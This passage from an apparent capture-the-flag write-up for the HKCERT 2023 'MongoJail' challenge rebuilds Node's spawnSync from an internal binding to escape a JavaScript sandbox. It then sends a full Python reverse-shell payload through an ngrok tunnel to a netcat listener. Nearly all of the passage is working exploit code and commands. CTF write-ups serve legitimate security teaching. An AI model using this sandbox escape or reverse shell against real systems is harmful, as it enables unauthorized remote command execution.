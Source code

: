 **Hence, the modified `spawnSync` function is:**
```javascript
spawn_sync = this.process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||this.process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}};var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}
```

Finally, we can use the above modified `spawnSync` function to execute system commands.

To get a shell on the challenge instance, we can:

- Setup a netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.11|13:53:30(HKT)]
└> nc -lnvp 4444                    
listening on [any] 4444 ...
```

- Port forwarding via Ngrok:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.11|13:53:20(HKT)]
└> ngrok tcp 4444                   
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:11075 -> localhost:4444
```

By doing this, the challenge instance can reach to our netcat listener.

- Send the Python reverse shell payload using the modified `spawnSync` function:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.11|13:53:43(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
spawn_sync = this.process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||this.process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}};var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;};spawnSync('python3',['-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ngrok_domain>",<your_ngrok_port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']);
```
